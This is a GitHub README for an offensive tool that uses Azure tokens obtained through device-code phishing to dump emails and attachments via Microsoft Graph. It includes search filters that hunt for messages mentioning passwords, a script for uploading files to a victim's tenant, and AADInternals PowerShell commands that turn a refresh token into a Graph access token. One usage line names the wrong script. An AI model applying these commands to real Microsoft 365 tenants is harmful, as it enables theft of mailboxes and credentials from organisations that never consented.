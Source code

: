 # MsGraphFunzy
Script to dump emails through Microsoft Graph API. it also include another script to push a file on the Azure tenant.

# Usage graph_dump.py

This script dump emails and attachments

```
python3 graph_dump.py extended_azure_token_file_path (optional filter)
```
# Filter examples

```
'$search="body:password"'
'$search="subject:password"'
'$search="attachment:password"'

python3 graph_dump.py extended_azure_token_file_path '$search="body:password"'
```

# Usage push_sharepoint.py 

This script can be used to host on file on an Azure tenant

```
python3 extract_email.py extended_azure_token_file_path file_to_upload_path remote_filename (optional -organization)
```

# Device code phishing extended scope

```
PS> install-module aadinternals
PS> import-module addinternals
PS> $t = Get-AADIntAccessTokenWithRefreshToken -clientid "d3590ed6-52b3-4102-aeff-aad2292ab01c" -resource "https://graph.microsoft.com" -tenantid "" -refreshtoken "" -savetocache 1 -includerefreshtoken 1
PS> Write-Output $t
```

# Credit
Mr.Un1k0d3r RingZer0 Team

